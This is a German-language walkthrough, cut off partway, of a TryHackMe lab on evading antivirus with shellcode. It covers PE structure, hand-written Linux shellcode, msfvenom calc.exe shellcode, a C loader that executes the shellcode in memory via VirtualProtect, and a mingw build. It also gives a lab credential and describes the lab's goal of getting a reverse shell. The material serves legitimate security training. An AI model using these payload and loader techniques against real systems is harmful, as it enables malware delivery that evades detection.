


# AV Umgehen: Shellcode
Dies ist eine einführung zu dem TryHackMe Raum: [AV Umgehen: Shellcode](https://tryhackme.com/r/room/avevasionshellcode)

# Task 1 - Einführung
In diesem Kurs werden wir untersuchen, wie man Payloads erstellt und bereitstellt, wobei der Schwerpunkt darauf liegt, die Erkennung durch gängige Antiviren-Engines zu vermeiden. Wir werden verschiedene Techniken betrachten, die uns als Angreifer zur Verfügung stehen, und die Vor- und Nachteile jeder einzelnen diskutieren.

Ziele

- Erlernen, wie Shellcodes erstellt werden.
- Untersuchung der Vor- und Nachteile von gestuften Payloads.
- Erstellung von unauffälligen Shellcodes zur Vermeidung von AV-Erkennung.

Voraussetzungen

Es wird empfohlen, einige Vorkenntnisse darüber zu haben, wie Antivirensoftware funktioniert, sowie ein grundlegendes Verständnis von Verschlüsselung und Codierung zu besitzen. Obwohl es nicht zwingend erforderlich ist, können Kenntnisse in grundlegender Assemblersprache ebenfalls hilfreich sein. Außerdem empfehlen wir ein grundlegendes Verständnis im Lesen und Verstehen von Funktionen (C, C#).

# Task 2 - Herausforderung
In dieser Herausforderung haben wir eine Windows-Maschine mit einer Webanwendung vorbereitet, über die Sie Ihre Payloads hochladen können. Nach dem Hochladen werden die Payloads von einer Antivirensoftware überprüft und ausgeführt, wenn sie als frei von Malware erkannt werden. Das Hauptziel dieser Herausforderung ist es, die Antivirensoftware auf der VM zu umgehen und die Flagge im Dateisystem zu erfassen. Nutzen Sie gerne alle Techniken, die im Raum diskutiert wurden, indem Sie diese unter http://COSTUM-IP/ hochladen.

Wichtige Punkte:

- Versuchen Sie, die diskutierten Techniken zu kombinieren.
- Die Website unterstützt nur EXE-Dateien.
- Sobald die Antivirensoftware die hochgeladene Datei gescannt und keine schädlichen Codes gefunden hat, wird die Datei ausgeführt. Wenn also alles richtig zusammengefügt ist, sollten Sie eine Reverse-Shell erhalten.


Sie können die Fragen für diese Aufgabe vorerst ignorieren, aber stellen Sie sicher, dass Sie auf sie zurückkommen, sobald Sie die Antivirensoftware erfolgreich umgangen und eine Shell erhalten haben.

Bereiten Sie die angehängte virtuelle Maschine (VM) vor, um mit dem Inhalt des Raums fortzufahren, bevor Sie zur nächsten Sektion übergehen! Die VM wird in Ihrem Browser bereitgestellt und sollte automatisch im geteilten Bildschirm erscheinen. Falls die VM nicht sichtbar ist, verwenden Sie die blaue Schaltfläche "Split View anzeigen" oben rechts auf der Seite. Wenn Sie bevorzugen, über RDP eine Verbindung herzustellen, können Sie dies mit den folgenden Anmeldedaten tun:  


Du wirst auch die AttackBox für einige Aufgaben benötigen, daher ist dies ein guter Zeitpunkt, um damit anzufangen.

## Fragen:
Welche Antivirensoftware läuft auf der virtuellen Maschine?
```
Windows Defender
```

Wie lautet der Name des Benutzerkontos, auf das du Zugriff hast?
```
```

Erstelle eine funktionierende Shell auf der Opfermaschine und lies die Datei auf dem Desktop des Benutzers. Was ist die Flagge?
```
```

# Task 3 - PE Struktur
Diese Aufgabe hebt einige der wichtigen Elemente der PE-Datenstruktur für Windows-Binärdateien hervor.

### Was ist PE?

Das Portable Executable (PE) ist das Dateiformat für ausführbare Dateien unter Windows, das eine Datenstruktur darstellt, welche die für Dateien notwendigen Informationen enthält. Es dient dazu, den ausführbaren Dateicode auf einer Festplatte zu organisieren. Betriebssystemkomponenten wie Windows- und DOS-Lader können diese Dateien in den Speicher laden und auf Basis der analysierten Dateiinformationen aus dem PE ausführen.

Im Allgemeinen haben Windows-Binärdateien wie EXE, DLL und Objektcode dieselbe PE-Struktur und funktionieren im Windows-Betriebssystem für die CPU-Architekturen (x86 und x64).

Die PE-Struktur umfasst verschiedene Abschnitte, die Informationen über die Binärdatei enthalten, wie Metadaten und Verweise auf Speicheradressen externer Bibliotheken. Einer dieser Abschnitte ist der PE-Header, der Metadateninformationen, Zeiger und Verknüpfungen zu Abschnitten im Speicher enthält. Ein anderer Abschnitt ist der Datenabschnitt, der Container enthält, die die für den Windows-Lader erforderlichen Informationen zum Ausführen eines Programms enthalten, wie ausführbarer Code, Ressourcen, Verknüpfungen zu Bibliotheken, Datenvariablen usw.  
.png)

Es gibt verschiedene Arten von Datencontainern in der PE-Struktur, die jeweils unterschiedliche Daten halten:

1. `.text` speichert den tatsächlichen Programmcode.
2. `.data` enthält initialisierte und definierte Variablen.
3. `.bss` enthält nicht initialisierte Daten (deklarierte Variablen ohne zugewiesene Werte).
4. `.rdata` enthält schreibgeschützte Daten.
5. `.edata` enthält exportierbare Objekte und zugehörige Tabelleninformationen.
6. `.idata` enthält importierte Objekte und zugehörige Tabelleninformationen.
7. `.reloc` enthält Informationen zur Bild-Adressumsetzung.
8. `.rsrc` verknüpft externe Ressourcen, die vom Programm verwendet werden, wie Bilder, Icons, eingebettete Binärdateien und eine Manifestdatei, die alle Informationen zu Programmversionen, Autoren, Unternehmen und Urheberrecht enthält.

Die PE-Struktur ist ein umfangreiches und komplexes Thema, und wir werden hier nicht zu detailliert auf die Header und Datenabschnitte eingehen. Diese Aufgabe bietet einen Überblick über die PE-Struktur auf hoher Ebene. Wenn du mehr Informationen zu diesem Thema erhalten möchtest, empfehlen wir, die folgenden THM-Räume zu überprüfen, wo das Thema detaillierter erklärt wird:

- [Windows Internals](https://tryhackme.com/r/room/windowsinternals)
- Analyse von PE-Headern

Du kannst auch weitere detaillierte Informationen über PE auf der [Website der Windows PE-Format-Dokumentation](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) erhalten.

Wenn wir uns den Inhalt der PE ansehen, sehen wir, dass er eine Reihe von Bytes enthält, die für Menschen nicht lesbar sind. Dennoch enthält er alle Details, die der Loader benötigt, um die Datei auszuführen. Im Folgenden sind die Beispiel-Schritte aufgeführt, mit denen der Windows-Loader eine ausführbare Binärdatei liest und als Prozess ausführt:

1. **Header-Abschnitte:** DOS-, Windows- und optionale Header werden analysiert, um Informationen über die EXE-Datei bereitzustellen. Zum Beispiel:
   - Die magische Zahl beginnt mit "MZ", was dem Loader signalisiert, dass es sich um eine EXE-Datei handelt.
   - Dateisignaturen
   - Ob die Datei für die x86- oder x64-CPU-Architektur kompiliert ist.
   - Erstellungszeitstempel.

2. **Analyse der Abschnittstabelle-Details:** Anzahl der Abschnitte, die die Datei enthält.

3. **Zuordnung der Dateiinhalte in den Speicher basierend auf:**
   - Der Einstiegspunkt-Adresse und dem Offset der Bildbasis.
   - RVA: Relative Virtual Address, Adressen bezogen auf Imagebase.

4. **Imports, DLLs und andere Objekte werden in den Speicher geladen.**

5. **Die Einstiegspunkt-Adresse wird lokalisiert und die Hauptausführungsfunktion wird ausgeführt.**

### Warum müssen wir über PE Bescheid wissen?

Es gibt ein paar Gründe, warum wir es lernen müssen. Erstens erfordert die Technik des Packens und Entpackens detaillierte Kenntnisse über die PE-Struktur.

Der andere Grund ist, dass AV-Software und Malware-Analysten EXE-Dateien auf der Grundlage der Informationen im PE-Header und anderen PE-Abschnitten analysieren. Daher müssen wir die Struktur der Windows-Portable-Executable-Dateien verstehen, um Malware mit AV-Evasion-Fähigkeiten zu erstellen oder zu modifizieren, die auf eine Windows-Maschine abzielt, und wissen, wo der bösartige Shellcode gespeichert werden kann.

Wir können kontrollieren, in welchem Datenabschnitt wir unseren Shellcode speichern, indem wir definieren, wie wir die Shellcode-Variable definieren und initialisieren. Hier sind einige Beispiele, die zeigen, wie wir den Shellcode in PE speichern können:

- Die Definition des Shellcodes als lokale Variable innerhalb der Hauptfunktion speichert ihn im `.text` PE-Abschnitt.
- Die Definition des Shellcodes als globale Variable speichert ihn im `.data`-Abschnitt.
- Eine weitere Technik besteht darin, den Shellcode als Rohbinärdatei in einem Iconbild zu speichern und es im Code zu verlinken, sodass er im `.rsrc`-Datenabschnitt angezeigt wird.
- Wir können einen benutzerdefinierten Datenabschnitt hinzufügen, um den Shellcode zu speichern.

### PE-Bear

Die angehängte VM ist eine Windows-Entwicklungsmaschine, die die Tools zum Analysieren von EXE-Dateien enthält und die besprochenen Details lesen kann. Zur einfachen Nutzung haben wir eine Kopie der PE-Bear-Software auf dem Desktop bereitgestellt, die die PE-Struktur überprüft: Header, Abschnitte usw. PE-Bear bietet eine grafische Benutzeroberfläche, um alle relevanten EXE-Details anzuzeigen. Um eine EXE-Datei zur Analyse zu laden, wähle `Datei -> PE laden (Strg + O)`.


Sobald eine Datei geladen ist, können wir alle PE-Details sehen. Der folgende Screenshot zeigt die PE-Details der geladenen Datei, einschließlich der Header und Abschnitte, die wir zuvor in dieser Aufgabe besprochen haben.


Jetzt ist es an der Zeit, es auszuprobieren! Lade die Datei **thm-intro2PE.exe**, um die unten stehenden Fragen zu beantworten. Die Datei befindet sich unter folgendem Pfad: `c:\Tools\PE files\thm-intro2PE.exe`.

## Fragen:
Was sind die letzten 6 Stellen des MD5-Hashwerts der Datei **thm-intro2PE.exe**?
```
```

Was ist der Wert der Magic Number der Datei **thm-intro2PE.exe** (in Hexadezimal)?
```
```

Was ist der Einstiegspunkt-Wert der Datei **thm-intro2PE.exe**?
```
```

Wie viele Abschnitte hat die Datei **thm-intro2PE.exe**?
```
```

Eine benutzerdefinierte Sektion könnte verwendet werden, um zusätzliche Daten zu speichern. Malware-Entwickler nutzen diese Technik, um einen neuen Abschnitt zu erstellen, der ihren bösartigen Code enthält und den Programmfluss umleitet, um den Inhalt des neuen Abschnitts auszuführen. Wie lautet der Name dieser zusätzlichen Sektion?
```
```

Überprüfe den Inhalt der zusätzlichen Sektion. Was ist die Flagge?
```
```

# Task 4 - Einführung in Shellcode
Shellcode ist eine Reihe von präzise erstellten Maschinencode-Anweisungen, die dem verwundbaren Programm sagen, zusätzliche Funktionen auszuführen und in den meisten Fällen Zugang zu einer Systemshell zu ermöglichen oder eine umgekehrte Befehlsshell zu erstellen.

Sobald das Shellcode in einen Prozess injiziert und von der verwundbaren Software oder dem Programm ausgeführt wird, ändert es den Ablauf des Programms, um Register und Funktionen zu aktualisieren und den Code des Angreifers auszuführen.

Shellcode wird in der Regel in Assemblersprache geschrieben und in hexadezimale Operationcodes (Opcode) übersetzt. Das Schreiben von einzigartigem und individuellem Shellcode trägt wesentlich zur Umgehung von AV-Software bei. Das Schreiben eines individuellen Shellcodes erfordert jedoch ausgezeichnete Kenntnisse und Fähigkeiten im Umgang mit Assemblersprache, was keine einfache Aufgabe ist!

### Ein einfacher Shellcode!

Um deinen eigenen Shellcode zu erstellen, sind bestimmte Fähigkeiten erforderlich:

- Ein solides Verständnis der x86- und x64-CPU-Architekturen.
- Assemblersprache.
- Gute Kenntnisse in Programmiersprachen wie C.
- Vertrautheit mit den Betriebssystemen Linux und Windows.

Um unseren eigenen Shellcode zu generieren, müssen wir Bytes aus dem Assembler-Maschinencode schreiben und extrahieren. Für diese Aufgabe verwenden wir die AttackBox, um einen einfachen Shellcode für Linux zu erstellen, der den String "THM, Rocks!" ausgibt. Der folgende Assemblercode verwendet zwei Hauptfunktionen:

- Die System Write-Funktion (sys_write), um einen von uns gewählten String auszugeben.
- Die System Exit-Funktion (sys_exit), um die Ausführung des Programms zu beenden.

Um diese Funktionen aufzurufen, verwenden wir **Syscalls**. Ein Syscall ist die Methode, mit der ein Programm den Kernel darum bittet, etwas zu tun. In diesem Fall fordern wir den Kernel auf, einen String auf unserem Bildschirm auszugeben und dann das Programm zu beenden. Jedes Betriebssystem hat eine andere Aufrufkonvention bezüglich Syscalls. Das bedeutet, dass für die Verwendung von `write` unter Linux ein anderer Syscall verwendet wird als unter Windows.
Hier sind die übersetzten Informationen:

| rax | Systemaufruf | rdi               | rsi                  | rdx               |
|-----|--------------|-------------------|----------------------|-------------------|
| 0x1 | sys_write    | unsigned int fd   | const char *buf       | size_t count      |
| 0x3c| sys_exit     | int error_code    | -                    | -                 |

Die Tabelle oben zeigt uns, welche Werte wir in verschiedenen Prozessorregistern setzen müssen, um die Funktionen sys_write und sys_exit mit Syscalls aufzurufen. Für 64-Bit Linux wird das Register rax verwendet, um die Funktion im Kernel anzugeben, die wir aufrufen möchten. Durch Setzen von rax auf 0x1 wird der Kernel sys_write ausführen, und durch Setzen von rax auf 0x3c wird der Kernel sys_exit ausführen. Jede der beiden Funktionen erfordert einige Parameter, die über die Register rdi, rsi und rdx gesetzt werden können. Eine vollständige Referenz der verfügbaren 64-Bit Linux Syscalls findest du hier.

Für `sys_write` ist der erste Parameter, der durch `rdi` gesendet wird, die Dateideskriptor zum Schreiben. Der zweite Parameter in `rsi` ist ein Zeiger auf den String, den wir ausgeben möchten, und der dritte in `rdx` ist die Größe des auszugebenden Strings.

Für `sys_exit` muss rdi auf den Exit-Code für das Programm gesetzt werden. Wir werden den Code 0 verwenden, was bedeutet, dass das Programm erfolgreich beendet wurde.

Kopiere den folgenden Code in deine AttackBox in eine Datei namens `thm.asm`:
```
global _start

section .text
_start:
    jmp MESSAGE      ; 1) let's jump to MESSAGE

GOBACK:
    mov rax, 0x1
    mov rdi, 0x1
    pop rsi          ; 3) we are popping into `rsi`; now we have the
                     ; address of "THM, Rocks!\r\n"
    mov rdx, 0xd
    syscall

    mov rax, 0x3c
    mov rdi, 0x0
    syscall

MESSAGE:
    call GOBACK       ; 2) we are going back, since we used `call`, that means
                      ; the return address, which is, in this case, the address
                      ; of "THM, Rocks!\r\n", is pushed into the stack.
    db "THM, Rocks!", 0dh, 0ah
```

Lassen Sie uns den ASM-Code etwas genauer erklären. Zuerst wird unser Nachrichtenstring am Ende des .text-Abschnitts gespeichert. Da wir einen Zeiger auf diese Nachricht benötigen, um sie auszugeben, springen wir zur Call-Anweisung vor der Nachricht selbst. Wenn die Anweisung `call GOBACK` ausgeführt wird, wird die Adresse der nächsten Anweisung nach dem call auf den Stack geschoben, was der Stelle entspricht, an der unsere Nachricht steht. Beachte, dass die Zeichenfolge 0dh, 0ah am Ende der Nachricht dem binären Äquivalent eines Zeilenumbruchs (\r\n) entspricht.

Als nächstes beginnt das Programm mit der GOBACK-Routine und bereitet die erforderlichen Register für unsere erste sys_write()-Funktion vor.

- Wir geben die sys_write-Funktion an, indem wir 1 im rax-Register speichern.
- Wir setzen rdi auf 1, um die Zeichenfolge auf der Konsole des Benutzers (STDOUT) auszugeben.
- Wir holen einen Zeiger auf unsere Zeichenfolge, der beim Aufruf von GOBACK gepusht wurde, und speichern ihn in rsi.
- Mit der syscall-Anweisung führen wir die sys_write-Funktion mit den vorbereiteten Werten aus.
- Für den nächsten Teil machen wir dasselbe, um die sys_exit-Funktion aufzurufen, indem wir also 0x3c in das rax-Register setzen und die syscall-Funktion aufrufen, um das Programm zu beenden.

Als nächstes kompilieren und verknüpfen wir den ASM-Code, um eine ausführbare Datei für x64 Linux zu erstellen, und führen schließlich das Programm aus.
```shell 
user@AttackBox$ nasm -f elf64 thm.asm
user@AttackBox$ ld thm.o -o thm
user@AttackBox$ ./thm
THM,Rocks!        
```

Wir haben den Befehl `nasm` verwendet, um die ASM-Datei zu kompilieren, wobei wir die Option `-f elf64` angegeben haben, um anzugeben, dass wir für 64-Bit Linux kompilieren. Beachte, dass wir als Ergebnis eine .o-Datei erhalten, die den Objektcode enthält und die verknüpft werden muss, um eine funktionierende ausführbare Datei zu erhalten. Der Befehl `ld` wird verwendet, um das Objekt zu verknüpfen und die endgültige ausführbare Datei zu erhalten. Die Option `-o` wird verwendet, um den Namen der Ausgabedatei festzulegen.

Nun, da wir das kompilierte ASM-Programm haben, extrahieren wir das Shellcode mit dem Befehl `objdump`, indem wir den .text-Abschnitt der kompilierten Binärdatei dumpen.
```shell
user@AttackBox$ objdump -d thm

thm:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 1e                	jmp    4000a0 

0000000000400082 :
  400082:	b8 01 00 00 00       	mov    $0x1,%eax
  400087:	bf 01 00 00 00       	mov    $0x1,%edi
  40008c:	5e                   	pop    %rsi
  40008d:	ba 0d 00 00 00       	mov    $0xd,%edx
  400092:	0f 05                	syscall 
  400094:	b8 3c 00 00 00       	mov    $0x3c,%eax
  400099:	bf 00 00 00 00       	mov    $0x0,%edi
  40009e:	0f 05                	syscall 

00000000004000a0 :
  4000a0:	e8 dd ff ff ff       	callq  400082 
  4000a5:	54                   	push   %rsp
  4000a6:	48                   	rex.W
  4000a7:	4d 2c 20             	rex.WRB sub $0x20,%al
  4000aa:	52                   	push   %rdx
  4000ab:	6f                   	outsl  %ds:(%rsi),(%dx)
  4000ac:	63 6b 73             	movslq 0x73(%rbx),%ebp
  4000af:	21                   	.byte 0x21
  4000b0:	0d                   	.byte 0xd
  4000b1:	0a                   	.byte 0xa
```

Jetzt müssen wir den Hexadezimalwert aus der obigen Ausgabe extrahieren. Dazu können wir `objcopy` verwenden, um den .text-Abschnitt in eine neue Datei namens `thm.text` im Binärformat zu dumpen.
```shell
user@AttackBox$ objcopy -j .text -O binary thm thm.text
```

Die Datei thm.text enthält unseren Shellcode im Binärformat. Um ihn verwenden zu können, müssen wir ihn zuerst in Hexadezimalformat konvertieren. Der Befehl `xxd` hat die Option `-i`, die die binäre Datei direkt als C-String ausgibt.
```shell
user@AttackBox$ xxd -i thm.text
unsigned char new_text[] = {
  0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
  0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
  0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
  0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
  0x0d, 0x0a
};
unsigned int new_text_len = 50;
```

Endlich haben wir es: einen formatierten Shellcode aus unserer ASM-Assembly. Das hat Spaß gemacht! Wie wir sehen, erfordert es Hingabe und Fähigkeiten, um Shellcode für deine Arbeit zu erstellen!

Um zu bestätigen, dass der extrahierte Shellcode wie erwartet funktioniert, können wir unseren Shellcode ausführen und ihn in ein C-Programm injizieren.
```C
#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
        0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
        0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
        0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
        0x0d, 0x0a
    };
    
    (*(void(*)())message)();
    return 0;
}
```

Dann kompilieren wir es und führen es wie folgt aus,
```shell 
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
```

Schön! Es funktioniert. Beachten Sie, dass wir das C-Programm kompilieren, indem wir den NX-Schutz deaktivieren, der uns möglicherweise daran hindert, den Code korrekt im Datensegment oder im Stack auszuführen.

Das Verständnis von Shellcodes und wie sie erstellt werden, ist besonders wichtig für die folgenden Aufgaben, insbesondere wenn es um die Verschlüsselung und Codierung des Shellcodes geht.

## Fragen:
Ändern Sie Ihr C-Programm, um den folgenden Shellcode auszuführen. Wie lautet das Flag?
```C
unsigned char message[] = {
  0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
  0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
  0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
  0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
  0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
  0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
  0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
};
```
```

```

# Task 5 - Erstelle Shellcode
In dieser Aufgabe setzen wir unsere Arbeit mit Shellcode fort und zeigen, wie man Shellcode mithilfe öffentlicher Tools wie dem Metasploit-Framework generiert und ausführt.

### Generieren von Shellcode mit öffentlichen Tools

Shellcode kann für ein bestimmtes Format mit einer bestimmten Programmiersprache generiert werden. Das hängt von Ihnen ab. Wenn beispielsweise Ihr Dropper, also die Haupt-EXE-Datei, den Shellcode enthält, der an ein Opfer gesendet wird und in C geschrieben ist, müssen wir einen Shellcode-Format generieren, der in C funktioniert.

Der Vorteil der Generierung von Shellcode über öffentliche Tools besteht darin, dass wir keinen individuellen Shellcode von Grund auf erstellen müssen und auch kein Experte in Assemblersprache sein müssen. Die meisten öffentlichen C2-Frameworks bieten ihren eigenen Shellcode-Generator an, der mit der C2-Plattform kompatibel ist. Natürlich ist das für uns sehr praktisch, aber der Nachteil besteht darin, dass die meisten, oder man kann sagen, alle generierten Shellcodes den Antiviren-Anbietern bekannt sind und leicht erkannt werden können.

Wir werden Msfvenom auf der AttackBox verwenden, um einen Shellcode zu generieren, der Windows-Dateien ausführt. Wir werden einen Shellcode erstellen, der die Anwendung `calc.exe` ausführt.
```shell
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```
Als Ergebnis generiert das Metasploit-Framework einen Shellcode, der den Windows-Rechner (calc.exe) ausführt. Der Windows-Rechner wird häufig als Beispiel im Malware-Entwicklungsprozess verwendet, um einen Proof of Concept zu zeigen. Wenn die Technik funktioniert, öffnet sich eine neue Instanz des Windows-Rechners. Dies bestätigt, dass jeder ausführbare Shellcode mit der verwendeten Methode funktioniert.

### Shellcode-Injektion

Hacker injizieren Shellcode in einen laufenden oder neuen Thread und Prozess mithilfe verschiedener Techniken. Shellcode-Injektionstechniken ändern den Ausführungsfluss des Programms, um Register und Funktionen des Programms zu aktualisieren und den eigenen Code des Angreifers auszuführen.

Lassen Sie uns nun den generierten Shellcode weiterverwenden und ihn im Betriebssystem ausführen. Hier ist ein C-Code mit unserem generierten Shellcode, der in den Speicher injiziert und “calc.exe” ausgeführt wird.

Auf der AttackBox speichern wir das Folgende in einer Datei namens `calc.c`:
```C
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Jetzt kompilieren wir sie als Exe-Datei:
```shell
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Sobald wir unsere EXE-Datei haben, übertragen wir sie auf die Windows-Maschine und führen sie aus. Um die Datei zu übertragen, können Sie smbclient von Ihrer AttackBox aus verwenden, um auf den SMB-Share unter \10.10.169.114\Tools zuzugreifen. Verwenden Sie dazu die folgenden Befehle (denken Sie daran, dass das Passwort für den Benutzer “thm” Password321 lautet):
```shell
user@AttackBox$ smbclient -U thm '//CUSTOM-IP/Tools'
smb: \> put calc-MSF.exe
```

Dies sollte Ihre Datei in `C:\Tools\` auf dem Windows-Rechner kopieren.

Das AV-System Ihres Rechners sollte zwar deaktiviert sein, aber Sie können dennoch versuchen, Ihre Nutzdaten in den THM Antivirus Check auf `http://CUSTOM-IP/` hochzuladen.  


Das Metasploit-Framework bietet viele andere Shellcode-Formate und -Typen für Ihre Bedürfnisse. Wir empfehlen dringend, mehr damit zu experimentieren und Ihr Wissen zu erweitern, indem Sie verschiedene Shellcodes generieren.

Das vorherige Beispiel zeigt, wie Sie Shellcode generieren und auf einer Zielmaschine ausführen können. Natürlich können Sie dieselben Schritte wiederholen, um verschiedene Arten von Shellcode zu erstellen, z. B. den Meterpreter-Shellcode.

### Generieren von Shellcode aus EXE-Dateien

Shellcode kann auch in `.bin` Dateien gespeichert werden, einem Rohdatenformat. In diesem Fall können wir den Shellcode mit dem Befehl `xxd -i` extrahieren.

C2-Frameworks stellen Shellcode als rohe Binärdatei `.bin` bereit. Wenn dies der Fall ist, können wir den Linux-Systembefehl `xxd` verwenden, um die hexadezimale Darstellung der Binärdatei zu erhalten. Dazu führen wir den folgenden Befehl aus: `xxd -i`.

Lassen Sie uns eine rohe Binärdatei mit msfvenom erstellen, um den Shellcode zu erhalten:
```shell
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
```

Führe dann den Befehl `xxd` für die erstellte Datei aus:
```shell
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
